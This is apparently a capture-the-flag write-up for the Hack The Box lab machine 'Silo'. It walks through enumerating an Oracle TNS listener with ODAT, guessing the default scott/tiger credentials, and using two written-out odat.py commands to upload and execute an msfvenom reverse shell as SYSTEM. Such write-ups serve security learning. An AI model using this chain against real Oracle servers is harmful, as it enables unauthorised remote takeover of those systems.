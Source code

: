 # Silo

#### Machine Info
![](screenshots/silo.png)



### Nmap
![](screenshots/nmap.png)


#### HTTP (Port 80)

Index Page:
![](screenshots/index.png)

Tried go buster but got nothing.

#### Oracle TNS listener (Port 1521)

##### Exploit on oracle database:

`ODAT`: An open source tool to test the Oracle Databases remotely.</br>
Github: https://github.com/quentinhardy/odat

First get `sid` with `ODAT`.:
![](screenshots/odat_sid.png)

By using the `sid` we get from preivous step, we can try to guess credentials:
![](screenshots/odat_passwd.png)

We got `scott/tiger`!!. Let's try if this is valid:
![](screenshots/sqlplus.png)

We can login to oracle database server which means credential is correct.


##### Exploit

First, generate windows reverse shell code using `msfvenom`:
![](screenshots/msfvenom.png)

By using `odat.py`, we can upload and execute files with system privilege. We have generated `shell.exe` and just upload to the server by using `utlfile`. Then execute by using `externaltable`.

```
# Upload shell.exe to the server
python3 odat.py utlfile -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --putFile C:\\WINDOWS\\temp shell.exe ~/htb/machines/silo/shell.exe
```
![](screenshots/utlfile_upload.png)


```
# Execute shell.exe from the server
python3 odat.py externaltable -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --exec C:\\WINDOWS\\temp shell.exe
```
![](screenshots/externaltable_exec.png)

And from `nc` listener on attacking side:
![](screenshots/externaltable_shell.png)


And you can get `root.txt` :)
